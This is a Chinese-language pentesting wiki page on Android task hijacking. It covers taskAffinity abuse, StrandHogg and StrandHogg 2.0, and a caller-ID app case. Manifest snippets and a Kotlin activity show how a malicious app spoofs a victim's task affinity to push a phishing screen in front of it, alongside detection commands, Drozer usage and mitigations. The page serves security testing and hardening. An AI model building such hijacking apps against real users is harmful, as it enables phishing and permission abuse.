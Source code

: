 # Android 任务劫持

{{#include ../../banners/hacktricks-training.md}}

## 任务、后栈和前台活动

在 Android 中，**任务** 本质上是一组用户交互以完成特定工作的活动，组织在 **后栈** 中。这个栈根据活动打开的时间对活动进行排序，最近的活动显示在顶部，称为 **前台活动**。在任何时刻，只有这个活动在屏幕上可见，使其成为 **前台任务** 的一部分。

以下是活动转换的快速概述：

- **活动 1** 开始时是前台的唯一活动。
- 启动 **活动 2** 将 **活动 1** 推入后栈，使 **活动 2** 进入前台。
- 启动 **活动 3** 将 **活动 1** 和 **活动 2** 进一步推入栈中，**活动 3** 现在在前面。
- 关闭 **活动 3** 将 **活动 2** 重新带回前台，展示了 Android 的简化任务导航机制。

![https://developer.android.com/images/fundamentals/diagram_backstack.png](<../../images/image (698).png>)

---

## 任务亲和力攻击

`taskAffinity` 告诉 Android 一个 `Activity` *更倾向于* 属于哪个任务。当两个活动共享相同的亲和力时，**Android 允许将它们合并到同一个后栈中，即使它们来自不同的 APK**。

如果攻击者能够将恶意活动放置在该栈的 **根** 位置，每次受害者打开合法应用程序时，恶意 UI 将是用户看到的第一件事——非常适合网络钓鱼或滥用权限请求。

攻击面比许多开发者想象的要广，因为 **每个活动自动继承与应用程序包名称相等的亲和力**（除非开发者设置 `android:taskAffinity=""`）。因此 *不采取任何行动* 已经使应用在 Android 11 之前的版本中暴露于任务劫持的风险。

### 经典的 "singleTask / StrandHogg" 场景

1. 攻击者声明一个活动：
```xml
<activity android:name=".EvilActivity"
android:exported="true"
android:taskAffinity="com.victim.package"
android:launchMode="singleTask" >
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
```
2. 恶意应用程序启动一次，以便任务（具有伪造的亲和力）存在于最近的任务中。
3. 当用户稍后打开真实应用程序时，Android 发现已经有一个任务，其 **根亲和力与包匹配**，并将该任务带到前台。
4. 攻击者的 UI 首先显示。

### 默认亲和力（无 `singleTask`）变体 – 来电显示案例研究

在 **来电显示 (caller.id.phone.number.block)** 应用程序中报告的漏洞表明，该攻击 *也* 适用于默认的 `standard` 启动模式：

1. 攻击者应用程序创建一个假根活动并立即隐藏自己：
```kotlin
class HackActivity : AppCompatActivity() {
override fun onCreate(savedInstanceState: Bundle?) {
super.onCreate(savedInstanceState)
moveTaskToBack(true)   // 保持任务在最近但不在视线中
}
}
```
2. 清单只需将受害者包复制到 `taskAffinity` 中：
```xml
<activity android:name=".HackActivity"
android:exported="true"
android:taskAffinity="com.caller.id.phone.number.block" >
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
```
3. 一旦用户安装并打开恶意应用程序 **一次**，一个亲和力等于受害者包的任务就存在（但在后台）。
4. 当真实的来电显示应用程序启动时，Android 重新使用该任务并将 `HackActivity` 带到前台 → 网络钓鱼窗口/权限滥用。

> 注意：从 **Android 11 (API 30)** 开始，系统默认不将不属于同一 UID 的两个包放入同一任务，从而减轻了这一特定变体。旧版本仍然易受攻击。

---

### StrandHogg 2.0 (CVE-2020-0096) – 基于反射的任务劫持

谷歌在 2020 年 5 月的安全公告中修复了一个更高级的变体，称为 **StrandHogg 2.0**。该漏洞 **完全不依赖于 `taskAffinity`**；相反，它使用 *反射* 动态地将攻击者的活动插入到 *每个* 正在运行的任务的顶部，完全绕过了 Android 11 引入的“共享 UID”限制。

关键点：

* 一个零权限的恶意应用程序可以在打开后，遍历正在运行的任务并调用隐藏的 API 来 **重新归属** 自己的活动到任何任务中。
* 由于活动是在运行时插入的，因此 `launchMode` 或静态清单分析无法提前检测到攻击。
* 通过将检查回移植到 **Android 8.0/8.1/9**（2020 年 5 月 SPL）来修补。**Android 10 及更高版本不受影响。**

在未修补的设备上，可以使用 `adb shell dumpsys activity activities` 进行检测，并观察包名与任务的 *亲和力* 不同的可疑活动。

对遗留设备的缓解措施与经典任务劫持相同 **加上** 运行时验证（例如，调用 [`ActivityManager#getRunningTasks`](https://developer.android.com/reference/android/app/ActivityManager#getRunningTasks(int)) 并验证自己的包名）。

---

## 检测与利用清单

1. **静态审查** – 从目标 APK 中提取 `AndroidManifest.xml`，检查每个 `<activity>`（或全局 `<application>` 元素）是否包含 `android:taskAffinity=""`（空） **或** 自定义值。工具如：
```bash
# 使用 apkanalyzer (Android SDK)
apkanalyzer manifest print app.apk | grep -i taskaffinity

# 使用 AXMLPrinter2
java -jar AXMLPrinter2.jar AndroidManifest.xml | grep taskAffinity
```
2. **动态审查** – 在设备上打开目标应用程序并列出任务：
```bash
adb shell dumpsys activity activities | grep -A3 "TASK" | grep -E "Root|affinity"
```
一个根亲和力等于受害者包但其顶部活动属于 *不同* 包的任务是一个红旗。
3. 按照上述描述制作恶意应用程序，或使用 **[Drozer](https://github.com/WithSecureLabs/drozer)**：
```bash
drozer console connect
run app.activity.start --component com.victim/.MainActivity --action android.intent.action.MAIN
run app.activity.info com.victim
```

---

## 缓解措施

开发者应：

* 在 `<application>` 级别明确设置 `android:taskAffinity=""`（推荐） **或** 为每个活动提供唯一的、私有的亲和力。
* 对于高度敏感的屏幕，将上述内容与 `android:launchMode="singleInstance"` 或现代 [`setLaunchMode`](https://developer.android.com/reference/android/content/pm/ActivityInfo#launchMode) 保护结合使用。
* 升级应用的 `targetSdkVersion` 并强制执行 **Android 11** 行为更改，默认情况下任务不跨包共享。
* 目标 **Android 12 (API 31) 或更高版本**，以便强制开发者审核每个外部可达组件的强制 `android:exported` 属性。
* 考虑运行时自我防御：定期查询 `ActivityTaskManager` 以确保您的顶部活动的包名与您自己的匹配。

---

## 相关 UI 劫持技术

任务劫持通常与或被 **tapjacking**（基于覆盖的 UI 欺骗）结合使用或替代。2025 年的 **TapTrap** 研究表明，完全透明的 *动画驱动* 活动可以绕过 Android 12–14 中引入的覆盖触摸限制，并仍然欺骗用户授予危险权限。虽然 TapTrap 并不严格属于 *任务* 劫持，但最终目标（网络钓鱼点击）是相同的——因此现代评估应检查这两种攻击面。

---

## 参考文献

- [https://blog.dixitaditya.com/android-task-hijacking/](https://blog.dixitaditya.com/android-task-hijacking/)
- [https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html](https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html)
- [Android Manifest Misconfiguration Leading to Task Hijacking in Caller ID app](https://github.com/KMov-g/androidapps/blob/main/caller.id.phone.number.block.md)
- [https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06](https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06)
- [Promon – StrandHogg 2.0 (CVE-2020-0096) technical write-up](https://promon.io/resources/downloads/strandhogg-2-0-new-serious-android-vulnerability)
- [USENIX 2025 – TapTrap: Animation-Driven Tapjacking on Android](https://www.usenix.org/conference/usenixsecurity25/presentation/beer)

{{#include ../../banners/hacktricks-training.md}}
